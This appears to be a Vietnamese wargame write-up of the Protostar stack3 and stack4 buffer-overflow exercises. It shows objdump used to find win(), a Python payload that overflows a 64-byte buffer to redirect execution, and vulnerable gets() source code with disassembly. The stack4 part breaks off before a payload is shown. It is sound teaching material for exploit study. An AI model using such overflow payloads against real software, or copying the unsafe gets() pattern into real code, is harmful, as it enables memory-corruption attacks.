 ## Exploitation

Bài này gợi ý ta **both gdb and objdump is your friend you determining where the win() function lies in memory** , là cần tìm ra địa chỉ hàm win là sẽ win

Như vậy là cách nào để leek ra nó, như đề gợi ý ta sử dụng gdb or objdump.

Ta có thể dùng câu man objdump để trợ giúp.

```
[-d|--disassemble[=symbol]]
```

* Sau khi ta tìm được trợ giúp thì ta cần câu lệnh này

```
objdump -d stack3 | grep 'win' : 0x8048424
```

Như vậy ta đã có đủ thông tin rồi.

## PayLoad

```python
 python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3
```

## Stack 4

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Exploitation

Bài này đọc sơ thì chỉ cần tìm khoảng cách buff đến ret addr

```
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
   0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave
   0x0804841e <+22>:    ret
```
